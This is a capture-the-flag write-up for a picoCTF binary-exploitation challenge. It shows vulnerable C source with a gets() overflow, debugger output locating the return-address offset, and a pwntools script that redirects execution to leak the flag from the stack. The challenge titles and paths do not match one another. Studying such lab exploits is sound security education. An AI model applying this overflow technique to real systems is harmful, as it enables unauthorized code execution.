

# Write-up of the challenge "Wine"

This challenge is part of the "Binary exploitation" category and is in the hard category.

# Goal of the challenge

The objective of the challenge is it just asks you to input something.
```
┌──(venv)(abdullah㉿Abdullah)-[/mnt/d/chals/Picoctf/pwn/echo_valley]
└─$  nc saturn.picoctf.net 63269
Give me a string that gets you the flag
w
w
Bye!
```

## Program structure

```

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 16
#define FLAGSIZE 64
#define INPSIZE 10

/*
This program is compiled statically with clang-12
without any optimisations.
*/

void win() {
  char buf[FLAGSIZE];
  char filler[BUFSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
}

void UnderConstruction() {
        // this function is under construction
        char consideration[BUFSIZE];
        char *demographic, *location, *identification, *session, *votes, *dependents;
	char *p,*q, *r;
	// *p = "Enter names";
	// *q = "Name 1";
	// *r = "Name 2";
        unsigned long *age;
	printf("User information : %p %p %p %p %p %p\n",demographic, location, identification, session, votes, dependents);
	printf("Names of user: %p %p %p\n", p,q,r);
        printf("Age of user: %p\n",age);
        fflush(stdout);
}

void vuln(){
   char buf[INPSIZE];
   printf("Give me a string that gets you the flag\n");
   gets(buf);
   printf("%s\n",buf);
   return;
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  printf("Bye!");
  return 0;
}


```

## Problem

So the problem I had is that I was using  "**pattern create**" and "**pattern offset**" to find the **"$RIP"**, which gave me wrong values, but when I used pwndbg it gave me the real offset to the **"$RIP"**.

```

gef➤  pattern create 200
[+] Generating a pattern of 200 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
[+] Saved as '$_gef0'
```

```
$eip   : 0x61656161 ("aaea"?)
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern offset aaea
[+] Searching for '61656161'/'61616561' with period=4
[+] Found at offset 15 (little-endian search) likely
gef➤  

```

When I used pwndbg:


```
pwndbg: loaded 212 pwndbg commands. Type pwndbg [filter] for a list.
pwndbg: created 13 GDB functions (can be used with print/break). Type help function to see them.
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
gef➤  cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
gef➤ 
```
 
```
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  cyclic -o aaea
Finding cyclic pattern of 4 bytes: b'aaea' (hex: 0x61616561)
Found at offset 14
gef➤  
```

When I figured out the offset to **$RIP**, I had another problem to worry about. The problem is that the flag is put on the buffer but not printed and the question was how could I find the flag?

## Security breach

So as far I am concerned there are two major vulnerabilites here!

1) The "**buffer overflow**" in the vuln function:
**"gets(buf);"**

2) The printf's in the function UnderConstruction Ex. 
```
	printf("User information : %p %p %p %p %p %p\n",demographic, location, identification, session, votes, dependents);
	printf("Names of user: %p %p %p\n", p,q,r);

```
that is leaking values from the stack!


## Solution

So in the end I just decided to **"Buffer overflow"** into the **"win"** and then just enter the **"UnderConstruction"** function and make it leak the flag off the stack!

```
from pwn import *

p = remote('saturn.picoctf.net', 62948)

offset = 14
win = 0x08049d90
under_construction = 0x08049e10

payload = b'A' * offset + p32(win) + p32(under_construction)

p.sendline(payload)

p.interactive()
```

When I ran the solve.py script I got this in return:

```
┌──(venv)(abdullah㉿Abdullah)-[/mnt/d/chals/Picoctf/pwn/stack cache]
└─$ python3 solve.py
[+] Opening connection to saturn.picoctf.net on port 55766: Done
[*] Switching to interactive mode
Give me a string that gets you the flag
AAAAAAAAAAAAAA\x90\x9d\x04\x08\x10\x9e\x04\x08
User information : 0x80c9a04 0x804007d 0x36343532 0x37383139 0x5f597230 0x6d334d5f
Names of user: 0x50755f4e 0x34656c43 0x7b465443
Age of user: 0x6f636970
[*] Got EOF while reading in interactive
$  
```
After getting the flag I just put in cyberchef and it gave me back the flag!



If you liked this writeup you can star my repository.